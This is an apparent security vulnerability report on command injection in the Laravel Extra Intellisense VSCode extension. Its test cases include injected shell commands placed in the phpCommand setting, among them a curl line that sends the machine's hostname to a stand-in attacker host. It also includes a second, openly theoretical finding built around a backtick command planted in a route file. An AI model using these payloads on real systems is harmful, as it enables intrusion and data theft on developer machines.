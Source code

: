 ### Vulnerability List:

- Vulnerability Name: Remote Code Execution via `phpCommand` Injection
- Description:
    1. An attacker gains control over the VSCode workspace settings (e.g., through social engineering or compromising a developer's machine).
    2. The attacker modifies the `LaravelExtraIntellisense.phpCommand` setting to include malicious shell commands. For example: `"phpCommand": "php -r \\"{code}\\" && touch /tmp/pwned"`
    3. The extension periodically executes PHP code using the configured `phpCommand` to gather autocompletion data (e.g., for routes, views, configs).
    4. When the extension executes a PHP command, the injected shell command (e.g., `touch /tmp/pwned`) is also executed due to command injection in the `phpCommand` setting.
    5. This results in arbitrary code execution on the developer's machine.
- Impact: Remote Code Execution on the developer's machine. An attacker can potentially steal credentials, install malware, or pivot to other systems accessible from the developer's environment.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations: None. The extension directly uses the user-provided `phpCommand` setting without any sanitization or validation.
- Missing Mitigations:
    - Input sanitization for the `phpCommand` setting to prevent command injection.
    - Validation of the `phpCommand` to ensure it only contains safe commands (e.g., starting with `php`).
    - Display a warning message to the user when they modify `phpCommand` setting, especially if it contains potentially dangerous characters.
    - Consider using `child_process.spawn` with arguments array instead of `child_process.exec` with string command to avoid shell injection.
- Preconditions:
    - An attacker must be able to modify the VSCode workspace settings (e.g., `settings.json`).
    - The extension must be activated and running in a workspace.
- Source Code Analysis:
    - File: `src/helpers.ts`
    - Function: `runPhp(code: string, description: string|null = null)`
    ```typescript
    static async runPhp(code: string, description: string|null = null) : Promise<string> {
        code = code.replace(/\"/g, "\\\"");
        if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
            code = code.replace(/\$/g, "\\$");
            code = code.replace(/\\\\'/g, '\\\\\\\\\'');
            code = code.replace(/\\\\"/g, '\\\\\\\\\"');
        }
        let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
        let command = commandTemplate.replace("{code}", code);
        let out = new Promise<string>(function (resolve, error) {
            if (description != null) {
                Helpers.outputChannel?.info("Laravel Extra Intellisense command started: " + description);
            }

            cp.exec(command, // Vulnerable function: cp.exec
                { cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0 ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined },
                function (err, stdout, stderr) {
                    if (err == null) {
                        if (description != null) {
                            Helpers.outputChannel?.info("Laravel Extra Intellisense Resolved: " + description);
                        }
                        resolve(stdout);
                    } else {
                        const errorOutput = stderr.length > 0 ? stderr : stdout;
                        Helpers.outputChannel?.error("Laravel Extra Intellisense Error:\n " + (description ?? '') + '\n\n' + errorOutput);
                        Helpers.showErrorPopup();
                        error(errorOutput);
                    }
                }
            );
        });
        return out;
    }
    ```
    - The `runPhp` function in `helpers.ts` takes PHP code as input and executes it using the `phpCommand` setting.
    - The `phpCommand` is retrieved from the VSCode configuration: `vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand')`.
    - The provided `code` is inserted into the `commandTemplate` using simple string replacement: `commandTemplate.replace("{code}", code)`.
    - The resulting `command` string is then executed using `cp.exec(command, ...)`.
    - `cp.exec` executes a command in a shell, which is vulnerable to command injection if the `command` string is not properly sanitized.
    - The code performs minimal escaping: `code.replace(/\"/g, "\\\"")` and some platform-specific escaping for Linux-like systems, but it does **not** sanitize or validate the `phpCommand` itself.
    - An attacker can inject arbitrary shell commands by modifying the `phpCommand` setting.

- Security Test Case:
    1. Open a Laravel project in VSCode and activate the "Laravel Extra Intellisense" extension.
    2. Open the workspace settings (e.g., `settings.json`).
    3. Modify the `LaravelExtraIntellisense.phpCommand` setting to: `"phpCommand": "php -r \\"{code}\\" && touch /tmp/pwned_rce"`
    4. Open any PHP or Blade file in the workspace to trigger autocompletion. This will cause the extension to execute PHP commands using the modified `phpCommand`.
    5. Check if the file `/tmp/pwned_rce` has been created on the system. If the file exists, it confirms successful remote code execution via `phpCommand` injection.
    6. To further verify, you can try more harmful commands, like reverse shell or data exfiltration, instead of `touch`. **Warning: Perform these tests in a controlled environment.** For example, set `"phpCommand": "php -r \\"{code}\\" && curl -X POST -d \\"pwned=\\"\`hostname\`\\" http://attacker.example.com/log"` and check your attacker server logs.

- Vulnerability Name: Potential Remote Code Execution via Project File Manipulation (Theoretical - Needs Further Investigation)
- Description:
    1. An attacker gains write access to the Laravel project files (e.g., by compromising the Git repository, exploiting vulnerabilities in project dependencies, or social engineering).
    2. The attacker injects malicious PHP code into project files that are parsed by the extension. For example, the attacker could modify a route file (`routes/web.php`) or a view file (`resources/views/welcome.blade.php`) to include PHP code that executes system commands.
    3. The extension parses these modified files to extract autocompletion data (e.g., routes, views, view variables).
    4. In certain scenarios, the extension might execute the parsed PHP code directly or indirectly as part of its analysis process. For example, if the parsing process involves `eval()` or similar unsafe execution of code snippets extracted from project files.
    5. If the injected malicious code is executed, it results in remote code execution on the developer's machine when the extension is active and parses the manipulated project file.
- Impact: Potential Remote Code Execution on the developer's machine.
- Vulnerability Rank: Medium (Potentially High if easily exploitable - Needs further investigation to confirm exploitability)
- Currently Implemented Mitigations: None identified in the provided code. The extension parses project files and executes PHP code, but the safety of this process regarding malicious project files is unclear from the provided snippets.
- Missing Mitigations:
    - Secure parsing of project files to avoid executing arbitrary code within them.
    - Sandboxing or isolating the PHP execution environment to limit the impact of potentially malicious code execution.
    - Code review to ensure that the extension does not use unsafe functions like `eval()` on code extracted from project files.
- Preconditions:
    - An attacker must be able to modify files within the Laravel project directory.
    - The extension must be active and parsing the modified project files.
- Source Code Analysis:
    - Several providers (e.g., `RouteProvider`, `ViewProvider`, `ConfigProvider`, `TranslationProvider`, `BladeProvider`, `EloquentProvider`) use `Helpers.runLaravel()` to execute PHP code for data extraction.
    - For example, `RouteProvider.ts` uses `Helpers.runLaravel()` to get route information. It constructs a PHP script string to fetch routes and executes it.
    - `ViewProvider.ts` reads view file content using `fs.readFileSync()`. While it doesn't explicitly execute view file content directly using `runLaravel`, there's a possibility that the parsing process within Laravel might involve some level of code interpretation if view files contain raw PHP code.
    - `BladeProvider.ts` uses `runLaravel()` to fetch custom Blade directives, which involves reflecting on PHP code and closures.
    - The exact vulnerability depends on *how* Laravel parses these files and if the extension's analysis triggers the execution of malicious code injected into these files.
    - Further code review is needed to understand the exact code paths and if there are any unsafe operations involved in parsing and processing data from potentially malicious project files.

- Security Test Case (Proof of Concept - Theoretical):
    1. Open a Laravel project in VSCode and activate the "Laravel Extra Intellisense" extension.
    2. Modify a route file (e.g., `routes/web.php`) and inject malicious PHP code. For example, add a route definition like:
    ```php
    <?php

    use Illuminate\Support\Facades\Route;

    Route::get('/', function () {
        // Malicious code injection
        `touch /tmp/pwned_project_file_rce`;
        return view('welcome');
    });
    ```
    3. Open any PHP or Blade file in the workspace to trigger autocompletion which might trigger route parsing by the extension.
    4. Check if the file `/tmp/pwned_project_file_rce` has been created on the system. If the file exists, it *potentially* indicates code execution due to project file manipulation. **However, this test case might not directly trigger the vulnerability. It is more of a theoretical proof of concept that requires deeper investigation.**
    5. To get more accurate results, you might need to debug the extension and trace the execution flow when it parses route files or view files to see if and how injected PHP code might be executed. You could add `console.log` statements in the extension's code and observe the behavior when manipulated project files are present.
    6. Further investigation and more targeted test cases are needed to definitively confirm and exploit this potential vulnerability.
